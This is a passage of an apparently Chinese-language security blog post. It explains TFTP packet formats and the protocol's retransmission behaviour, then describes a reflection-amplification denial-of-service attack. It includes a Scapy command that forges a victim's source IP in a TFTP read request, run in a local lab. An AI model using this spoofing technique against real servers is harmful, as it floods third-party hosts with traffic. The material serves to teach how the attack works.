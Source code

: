        Type   Op #     Format without header    

              2 bytes    string   1 byte     string   1 byte
              -----------------------------------------------
       RRQ/  | 01/02 |  Filename  |   0  |    Mode    |   0  |
       WRQ    -----------------------------------------------
              2 bytes    2 bytes       n bytes
              ---------------------------------
       DATA  | 03    |   Block #  |    Data    |
              ---------------------------------
              2 bytes    2 bytes
              -------------------
       ACK   | 04    |   Block #  |
              --------------------
              2 bytes  2 bytes        string    1 byte
              ----------------------------------------
       ERROR | 05    |  ErrorCode |   ErrMsg   |   0  |
              ----------------------------------------

就拿A对S上的`RRQ (read request)`文件过程来演示一下，如下图：

![][2]

具体过程文字描述如下：

1. A向S的69端口发送RRQ数据包请求读取文件，其中包括文件名和传输使用的模式
2. S再新开一个端口发送DATA数据包开始传输文件，其中Data段中包含着文件内容，如果大于512字节（默认值），就会进行分块传输（对应标记Block的值），直到最后一次发送的数据包Data段小于512字节
3. A在接收到DATA数据包后就向S发送ACK数据包进行确认，其中的Block就为接收到的DATA数据包中的Blocak，然后S才会继续发下一个Block的DATA数据包
4. 如果S没有接收到A的ACK数据包，S就会重传刚才发过的DATA数据包

实际测试的抓包图如下：

![][3]

# 0x03 反射放大攻击

---

反射是过程，放大是结果。对于拒绝服务攻击来说，常用的方式有这么几种：1.滥用合理的服务请求；2.制造高流量无用数据；3.利用传输协议缺陷；4.利用服务程序的漏洞。TFTP反射放大攻击就是利用了协议上的缺陷或者说是特性，其中关键点有二：

1. 没有认证过程，这样就可以随意登录读取文件，同时伪造源（攻击目标）IP地址，为反射做好准备
2. 之前提到的重传机制，当服务端在没有收到我们的攻击目标的ACK包时，就会重传一定的次数给攻击目标，达到放大的目的

下面我就在本机上借由[Scapy](https://github.com/Larryxi/Scapy_zh-cn)伪造源地址数据包，向服务端(Kali2)发送RRQ数据包请求`get`服务器上的文件，进而将响应DATA包发射给目标机(XP)，诱发重传机制造成放大攻击。利用Scapy如下：

{% highlight python %}
>>> a = IP(dst='192.168.1.104',src='192.168.1.102')/UDP(sport=445,dport=69)/TFTP()/TFTP_RRQ(filename='larry')
>>> a
<IP  frag=0 proto=udp src=192.168.1.102 dst=192.168.1.104 |<UDP  sport=microsoft_ds dport=tftp |<TFTP  op=RRQ |<TFTP_RRQ  filename='larry' |>>>>
{% endhighlight %}


 [1]: http://ojyzyrhpd.bkt.clouddn.com/20160323/1.png
 [2]: http://ojyzyrhpd.bkt.clouddn.com/20160323/2.png
 [3]: http://ojyzyrhpd.bkt.clouddn.com/20160323/3.png
 [4]: http://ojyzyrhpd.bkt.clouddn.com/20160323/4.png
 [5]: http://ojyzyrhpd.bkt.clouddn.com/20160323/5.png
 [6]: http://ojyzyrhpd.bkt.clouddn.com/20160323/6.png
 [7]: http://ojyzyrhpd.bkt.clouddn.com/20160323/7.png
 [8]: http://ojyzyrhpd.bkt.clouddn.com/20160323/8.png
 [9]: http://ojyzyrhpd.bkt.clouddn.com/20160323/9.png